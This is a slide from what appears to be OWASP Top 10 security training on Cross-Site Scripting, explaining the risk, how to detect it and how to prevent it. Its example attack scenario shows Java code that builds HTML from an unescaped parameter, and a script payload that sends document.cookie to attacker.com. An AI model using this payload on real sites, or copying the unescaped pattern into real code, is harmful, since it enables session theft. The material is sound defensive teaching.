

A3
# Cross-Site Scripting (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| Application Specific | Exploitability AVERAGE | Prevalence VERY WIDESPREAD | Detectability AVERAGE | Impact MODERATE | Application / Business Specific |
| Consider anyone who can send untrusted data to the system, including external users, business partners, other systems, internal users, and administrators. | Attackers send text-based attack scripts that exploit the interpreter in the browser. Almost any source of data can be an attack vector, including internal sources such as data from the database. | XSS flaws occur when an application updates a web page with attacker controlled data without properly escaping that content or using a safe JavaScript API. There are two primary categories of XSS flaws: (1) Stored, and (2) Reflected, and each of these can occur on (a) the Server or (b) on the Client. Detection of most Server XSS flaws is fairly easy via testing or code analysis. Client XSS can be very difficult to identify. |  | Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc. | Consider the business value of the affected system and all the data it processes. Also consider the business impact of public exposure of the vulnerability. |

 Technical
   Impacts
           Security
          Weakness
Business
Impacts
    Attack
    Vectors
Threat
Agents

Am I Vulnerable to XSS?
You are vulnerable to Server XSS if your server-side code uses user-supplied input as part of the HTML output, and you don’t use context-sensitive escaping to ensure it cannot run. If a web page uses JavaScript to dynamically add attacker-controllable data to a page, you may have Client XSS. Ideally, you would avoid sending attacker-controllable data to unsafe JavaScript APIs, but escaping (and to a lesser extent) input validation can be used to make this safe.
Automated tools can find some XSS problems automatically. However, each application builds output pages differently and uses different browser side interpreters such as JavaScript, ActiveX, Flash, and Silverlight, usually using 3rd party libraries built on top of these technologies. This diveristy makes automated detection difficult, particularly when using modern single-page applications and powerful JavaScript frameworks and libraries. Therefore, complete coverage requires a combination of manual code review and penetration testing, in addition to automated approaches.
How Do I Prevent XSS?
Preventing XSS requires separation of untrusted data from active browser content.
To avoid Server XSS, the preferred option is to properly escape untrusted data based on the HTML context (body, attribute, JavaScript, CSS, or URL) that the data will be placed into. See the OWASP XSS Prevention Cheat Sheet for details on the required data escaping techniques.
To avoid Client XSS, the preferred option is to avoid passing untrusted data to JavaScript and other browser APIs that can generate active content. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the OWASP DOM based XSS Prevention Cheat Sheet.
For rich content, consider auto-sanitization libraries like OWASP’s AntiSamy or the Java HTML Sanitizer Project.
Consider Content Security Policy (CSP) to defend against XSS across your entire site.
Example Attack Scenario
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:
  (String) page += "<input name='creditcard' type='TEXT'
  value='" + request.getParameter("CC") + "'>";
The attacker modifies the ‘CC’ parameter in his browser to:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any  automated CSRF defense the application might employ. See 2017-A8 for info on CSRF.
References
OWASP
 OWASP Types of Cross-Site Scripting
 OWASP XSS Prevention Cheat Sheet
 OWASP DOM based XSS Prevention Cheat Sheet
 OWASP Java Encoder API
 ASVS: Output Encoding/Escaping Requirements (V6)
 OWASP AntiSamy: Sanitization Library
 Testing Guide: 1st 3 Chapters on Data Validation Testing
 OWASP Code Review Guide: Chapter on XSS Review
 OWASP XSS Filter Evasion Cheat Sheet
External
 CWE Entry 79 on Cross-Site Scripting